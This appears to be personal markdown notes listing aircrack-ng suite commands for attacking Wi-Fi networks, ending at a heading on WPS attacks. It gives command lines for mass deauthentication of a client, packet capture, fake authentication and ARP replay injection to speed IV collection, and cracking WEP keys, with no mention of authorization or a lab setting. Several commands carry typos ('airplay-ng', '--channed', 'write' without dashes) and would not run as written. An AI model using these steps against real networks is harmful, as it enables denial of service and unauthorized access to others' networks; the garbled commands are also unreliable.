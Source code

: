 ### to disconnect a device from wifi

`airplay-ng --deauth 1000000000 -a  <networkAddress-bssid> -c <clientAddress-station> <wirelessAdapterMonitorMode>`

c : device that needs to be disconnected

a : network that needs to disconnect the device

if it fails then use the command "to target a network specify specific mac address(under bssid column) and channel" first and then try this one

`airodump-ng --bssid <bssid> --channed <no> write <filename> <name of wireless adapter in monitor mode>`

`airplay-ng --deauth 1000000000 -a  <networkAddress-bssid> -c <clientAddress-station> <wirelessAdapterMonitorMode>`

### gaining access wep commands

`airodump-ng --bssid <bssid> --channed <no> write <filename> <name of wireless adapter in monitor mode>`

`aircrack-ng <filename with .cap extension>`

Key Found is the key of the wifi , just remove the colons before using it or you can use the ascii as the wifi password if it is available(ascii field is not always available)

if the network is not busy then #Data is going to be slow, in that case we need to force the AP to generate new packets with new IVs(Initialization vector). for doing this we need to associate with the network , so it won't ignore our request to generate new data packets

`airodump-ng --bssid <bssid> --channed <no> write <filename> <name of wireless adapter in monitor mode>`

`aireplay-ng --fakeauth 0 -a <bssid or mac address> -h <replace the minus in the value of unspeq with colon> <wireless adapter in monitor mode>`

0 is for running the fakeauth command once, -h is for the address of the usb wireless adapter(press ifconfig then in the usb wireless adapter use the value of field unspeq, usually it is the value of ether field, but for running it in monitor mode we will find it in unspeq mode)

`aireplay-ng --arpreplay -b <bssid or mac address> -h <replace the minus in the value of unspeq with colon> <wireless adapter in monitor mode>`

we will run arp attack to inject new packets with new IVs, then my wireless adapter will wait for an arp packet to be sent in the air and my wireless adapter would capture & retansmit the packet, then new packets new IVs... and associate one more time with 

`aireplay-ng --fakeauth 0 -a <bssid or mac address> -h <replace the minus in the value of unspeq with colon> <wireless adapter in monitor mode>`

and then crack the file with

`aircrack-ng <filename with .cap extension>`

### to display all the networks around us which have wps enabled in WPA and WPA2 and get the wifi password
